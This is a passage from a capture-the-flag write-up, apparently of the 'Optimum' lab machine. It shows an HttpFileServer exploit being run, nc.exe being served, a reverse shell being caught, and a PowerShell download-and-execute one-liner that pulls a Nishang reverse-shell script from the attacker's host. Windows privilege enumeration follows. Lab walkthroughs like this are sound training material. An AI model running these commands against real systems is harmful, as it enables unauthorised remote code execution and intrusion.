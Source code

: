 > **Attacker Machine**:

```bash
searchsploit -m windows/remote/39161.py
mv 39161.py hfs_exploit.py
nvim hfs_exploit.py

locate nc.exe | grep usr
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
python3 -m http.server 80
sudo rlwrap -cAr nc -nlvp 443
python2 hfs_exploit.py 10.129.45.159 80
# Execute several times :)

# Shell more stable
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 ./PS.ps1
nvim ./PS.ps1
cat ./PS.ps1 | tail -n 2
# Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.84 -Port 443
python3 -m http.server 80
sudo rlwrap -cAr nc -nlvp 443
```

> **Victime Machine**:

```cmd
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.84/PS.ps1')
# :)
```

<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/optimum_writeup/Optimum_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With the first **Enumeration** commands I cannot find privileges for the compromised account that would allow me to **Migrate Users** or **Escalate Privileges**, but I can see the contents of the first flag. I can also leaks information about the Operating System and know its architecture. With a **PowerShell** command I can [check that the OS is **64bits**](https://learn.microsoft.com/en-us/dotnet/api/system.environment.is64bitoperatingsystem?view=net-9.0){:target="_blank"} but the [process currently running](https://learn.microsoft.com/en-us/dotnet/api/system.environment.is64bitprocess?view=net-9.0){:target="_blank"} the shell is not 64bits.

```cmd
whoami
hostname
whoami /priv
whoami /all
# :(

systemInfo
# System Type:               x64-based PC

[Environment]::Is64BitOperatingSystem
# True
[Environment]::Is64BitProcess
# False
```
